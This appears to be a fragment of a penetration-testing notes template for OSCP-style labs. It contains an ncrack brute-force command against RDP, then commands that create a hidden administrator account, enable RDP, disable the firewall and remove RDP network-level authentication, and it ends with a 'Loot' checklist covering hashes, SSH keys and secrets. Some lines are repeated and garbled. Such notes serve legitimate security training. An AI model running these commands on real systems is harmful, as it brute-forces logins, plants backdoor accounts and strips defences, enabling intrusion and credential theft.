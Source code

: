 Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://10.10.10.87
```

### Useful commands


**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off
netsh firewall set opmode disable

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT -------------------




------------------------------------------------------------------------


## Loot

- Proof:
- Network secret:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:
